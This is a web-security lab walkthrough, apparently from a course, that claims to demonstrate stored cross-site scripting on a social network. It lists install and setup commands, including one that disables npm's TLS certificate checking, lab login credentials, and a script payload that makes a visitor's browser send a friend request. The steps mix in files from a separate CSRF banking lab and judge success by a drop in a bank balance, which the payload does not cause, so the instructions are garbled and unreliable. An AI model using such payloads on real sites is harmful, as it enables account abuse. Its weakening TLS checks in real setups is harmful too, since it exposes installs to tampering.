

## Cross-site Scripting (XSS Attack)

### Requirements 

In this lab, we will work on a social network website. An attacker, who is also a user on this website, injects a javascript into its profile, and when a victim visits the attacker's profile page, the injected javascript executes and the attacker gets added to the victim's friend list.

### Setup

Only one VM is sufficient.

### Steps

1. install node:

```console
$ sudo apt install nodejs
$ sudo apt install npm
$ npm install ejs	// pay attention here, this ejs is a new package which is unique to this lab.
$ npm config set strict-ssl false
$ npm install express
$ npm install cookie-parser
$ npm install body-parser
```

2. set up the social network website:

```console
$ mkdir banking
$ cd banking/
$ wget http://ns.cs.rpi.edu/labs/csrf/banking/index.html
$ wget http://ns.cs.rpi.edu/labs/csrf/banking/server.js
```

- start the banking webserver:
```console
$ node server.js
```

3. access the website from the browser: type localhost:4000, you should see this:


4. login as jessica, username: jessica, password: 50505. You should see that Jessica's account balance at this moment is $10,000:


5. set up the attacker directory:

```console
$ mkdir attacker
$ cd attacker/
$ wget http://ns.cs.rpi.edu/labs/csrf/attacker/index.html
$ wget http://ns.cs.rpi.edu/labs/csrf/attacker/cat.gif
$ wget http://ns.cs.rpi.edu/labs/csrf/attacker/attacker-frame.html
```

- start the attacker web server:
```console
$ python3 -m http.server 8000
```

6. Bob adds this script into his profile:

```console
<script> fetch('/add-friend/2'); </script>
``` 

Please refer to these screenshots to make sure you are adding the right content into Bob's profile:





access the website from the browser: open a new tab (make sure the banking site tab is still open), type localhost:8000 and enter, you should see this:


7. refresh the banking page, if the attack is successful, jessica's account balance should have less money now.


As can be seen from the above screenshot, the attack is successful, and this concludes the lab.

### References:

CS253 Web Security – course created and taught by Feross Aboukhadijeh at Stanford University.
